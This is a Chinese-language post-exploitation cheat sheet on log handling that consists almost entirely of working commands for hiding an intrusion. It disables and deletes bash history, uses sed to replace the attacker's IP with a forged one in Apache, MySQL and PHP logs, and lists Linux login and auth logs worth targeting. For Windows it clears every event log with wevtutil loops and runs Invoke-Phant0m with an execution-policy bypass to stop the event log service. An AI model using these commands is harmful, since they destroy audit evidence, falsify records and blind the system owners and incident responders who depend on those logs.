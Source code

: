 ```yaml
---
title: 【后渗透】日志处理
---
```

# 日志处理
# Linux日志处理

## Bash日志处理

**bash去掉history记录，让系统不记录history**

```bash
export HISTSIZE=0
export HISTFILE=/dev/null
```

history命令的清除，也是对~/.bash_history进行定向清除

```bash
history
rm -rf ~/.bash_history
```

## Web日志处理

如apache的access.log,error.log。

直接将日志清除过于明显,一般使用sed进行定向清除或伪造

```bash
sed –i ‘s/192.168.1.3/8.8.8.8/g’ /var/log/apache/access.log
sed –i ‘s/192.168.1.3/8.8.8.8/g’ /var/log/apache/error_log
#其中192.168.1.3是我们的IP，8.8.8.8是我们伪造的IP
```

## syslog处理

```bash
/var/log/wtmp	#永久记录所有用户的登录和注销信息，last查
/var/log/btmp	#记录登录失败的日志，lastb查看
/var/log/secure	#记录如SSH登录，su切换用户，sudo授权，甚至添加用户和修改用户密码
```

## MySQL日志文件

```bash
log-error=/var/log/mysql/mysql_error.log	#错误日志
log=/var/log/mysql/mysql.log			#最好注释掉，会产生大量的日志，包括每一个执行的sql及环境变量的改变等等
log-bin=/var/log/mysql/mysql_bin.log	# 用于备份恢复，或主从复制.这里不涉及。
log-slow-queries=/var/log/mysql/mysql_slow.log	#慢查询日志
log-error=/var/log/mysql/mysqld.log
pid-file=/var/run/mysqld/mysqld.pid

```

```bash
sed –i 's/192.168.1.3/8.8.8.8/g' /var/log/mysql/mysql_error.log
sed –i 's/192.168.1.3/8.8.8.8/g' /var/log/mysql/mysql_slow.log
```

## **php日志处理**

```bash
sed –i 's/192.168.1.3/192.168.1.4/g'/var/log/apache/php_error.log 
```

# Windows日志处理

## 一、wevtutil+for循环清除所有日志

```cmd
for /F "tokens=*" %a in ('wevtutil.exe el') DO wevtutil.exe cl "%a"
```

## 二、 ps批量删日志 

如果弹回来的是一个ps的shell,直接用ps来批量删日志 

```cmd
PS C:\> wevtutil el | Foreach-Object {Write-Host "Clearing $_"; wevtutil cl "$_"}
```

## 三、运行ps脚本

```bash
powershell –exec bypass –Command "& {Import-Module 'C:\Invoke-Phant0m.ps1';Invoke-Phant0m}"
#win日志服务此时就会停止工作了
```
